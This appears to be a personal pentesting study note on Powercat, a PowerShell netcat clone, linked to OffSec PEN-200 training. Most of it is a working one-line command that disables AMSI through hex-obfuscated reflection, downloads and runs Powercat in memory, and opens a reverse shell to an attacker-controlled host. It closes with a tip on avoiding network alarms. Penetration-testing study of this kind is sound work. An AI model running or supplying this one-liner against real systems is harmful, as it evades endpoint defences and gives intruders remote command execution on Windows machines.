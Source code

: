 # Using Powercat

* **author**:: Nathan Acks  
* **date**:: 2022-08-26

Powercat is a PowerShell-native reimplementation of netcat. Powercat can be installed on Kali Linux using `sudo apt install powercat`.

* [besimorhino / powercat](https://github.com/besimorhino/powercat)
* [Using PowerShell](powershell.md)
* [Using "netcat"](netcat.md)

## One Line Reverse Shell

This disables AMSI, downloads Powercat into memory and invokes the module and then fires up a reverse shell.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

It's probably advisable to use your own server to host Powercat in order to make tripping network alarms less likely.

* [2022-08-26 — OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)
